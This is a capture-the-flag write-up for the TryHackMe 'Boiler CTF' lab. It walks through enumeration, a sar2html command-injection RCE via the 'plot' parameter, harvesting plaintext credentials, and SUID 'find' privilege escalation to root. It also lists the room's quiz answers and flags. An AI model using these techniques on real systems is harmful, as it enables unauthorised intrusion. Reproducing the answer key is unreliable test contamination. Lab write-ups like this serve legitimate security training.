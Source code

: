 ```yaml
---
layout: post
title: Boiler CTF
date: 2022-12-30 12:00 +0700
categories: [THM, medium]
---
```


### Introduction

[Boiler CTF] is a medium CTF on TryHackMe focus in enumeration.

![Boiler CTF](https://tryhackme-images.s3.amazonaws.com/room-icons/4a800c6513239dbdfaf74ce869a88add.jpeg)


---

Let's start scanning the machine with nmap.
Like we can see in the scan, it returns, 4 open ports.

```sh
nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
```

![scan](/images/THM/boilerctf/Captura.PNG)

We're going to try to connect to ftp with the anonymous user.

```sh
ftp <ip>
```

Inside FTP we can see the file called **.info.txt**, so we download it.


![ftp](/images/THM/boilerctf/Captura1.PNG)

- File extension after anon login
>Answer: txt

- What is on the highest port?
>Answer: ssh

Let's see what is the content of the file. It returns a phrase, and It seems to be in ROT13.

```sh
cat .info.txt
```

![cat](/images/THM/boilerctf/Captura4.PNG)

If we go to [CyberChef] we can decode the phrase.
It remembers us to keep enumerating.

![cyberchef](/images/THM/boilerctf/Captura5.PNG)

If we go to the http in the port 10000 we can see a Webmin login panel.

![webmin](/images/THM/boilerctf/Captura2.PNG)

- What's running on port 10000?
>Answer: webmin

- Can you exploit the service running on that port? (yay/nay answer)
>Answer: nay

And if we go to the standard http port, we find an apache2 default page.

![apache](/images/THM/boilerctf/Captura3.PNG)

Time to find out directories using [Gobuster].

```sh
gobuster dir -u <URL> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t <threads> -x <extensions>
```

We got 3 results.

![gobuster](/images/THM/boilerctf/Captura6.PNG)

If we see **robots.txt**, we see some weird numbers. It could be ascii code, so let's decode it to text.

![robots](/images/THM/boilerctf/Captura7.PNG)

It returned more weird characters, so possibly is base64.

![ascii](/images/THM/boilerctf/Captura8.PNG)

When base64 is decoded, a md5 hash is revealed.

```sh
echo "<base64 code>" | base64 -d
```

![base64](/images/THM/boilerctf/Captura9.PNG)

To crack the md5 hash I used [CrackStation] which is an online page for cracking hashes.
But the hash cracked says kidding, so in fact is nothing interesting.

![md5](/images/THM/boilerctf/Captura10.PNG)

Let's move on to joomla directory.
Here we can see the CMS Joomla.

![joomla](/images/THM/boilerctf/Captura11.PNG)

- What's CMS can you access?
>Answer: joomla

Like in the file **.info.txt** said, let's keep enumerating.

This time, we will use the **common.txt** wordlist.

```sh
gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt -q -t <threads> -x <extensions>
```

![cyberchef](/images/THM/boilerctf/Captura12.PNG)

There are a lot of results, but the interesting one is the folder **_test** which contains sar2html.

Sar2html is the system statistics (sar data) plotting tool for a number of operating systems.

![cyberchef](/images/THM/boilerctf/Captura13.PNG)

If we research a little, we can find a [RCE exploit] for it.

![cyberchef](/images/THM/boilerctf/Captura14.PNG)

The exploit consists of type the command in the URL right in the variable **plot** starting with the ";" and followed for the command.

If we list the directory, we can see a file with the name **log.txt**.

![cyberchef](/images/THM/boilerctf/Captura15.PNG)

- The interesting file name in the folder?
>Answer: log.txt


Now is time to see the content of the file, and we got the credentials of the user **basterd**.

![cyberchef](/images/THM/boilerctf/Captura16.PNG)

It's time to connect to the machine with the credentials we got.

```sh
ssh basterd@<IP> -p 55007
```

When We're in, we can upgrade our simple shell to an interactive shell with the following command:

```sh
python -c "import pty;pty.spawn('<shell>')"
```

![cyberchef](/images/THM/boilerctf/Captura17.PNG)

Let's show directory content and we can find a file called **backup.sh**.

```sh
ls -la
```

If we see the content, we can find another user named stoner and his password.

```sh
cat backup.sh | more
```

![cyberchef](/images/THM/boilerctf/Captura18.PNG)

- Where was the other users pass stored(no extension, just the name)?
>Answer: backup

Time to log in with stoner.

```sh
su stoner
```

![cyberchef](/images/THM/boilerctf/Captura19.PNG)

If we go to his home directory, we find a **.secret** which contains the user flag.

```sh
cd /home/stoner
ls -la
cat .secret
```

![cyberchef](/images/THM/boilerctf/Captura20.PNG)

- user.txt
>Answer: You made it till here, well done.

It's time to elevate our privileges so If we search for suid binaries we can see the **find** binary.

```sh
find / -perm /4000 -type f 2>/dev/null
```

![cyberchef](/images/THM/boilerctf/Captura21.PNG)

We can use these permissions to elevate our privileges. If we don't know how to do this, we can search it in [GTFOBins].

```sh
/usr/bin/find . -exec <shell> -p \; -quit
```

![cyberchef](/images/THM/boilerctf/Captura22.PNG)

- What did you exploit to get the privileged user?
>Answer: find

Being root, now we can go to root directory and show the root flag.

```sh
cd /root
ls -la
cat root.txt
```

![cyberchef](/images/THM/boilerctf/Captura23.PNG)

And with this we've finished the machine.

- root.txt
>Answer: It wasn't that hard, was it?


  [Boiler CTF]: https://tryhackme.com/room/boilerctf2
  [Cyberchef]: https://gchq.github.io/CyberChef/
  [gobuster]: https://github.com/OJ/gobuster
  [RCE exploit]: https://www.exploit-db.com/exploits/47204
  [crackstation]:https://crackstation.net/
  [GTFOBins]:[GTFOBins]:https://gtfobins.github.io/
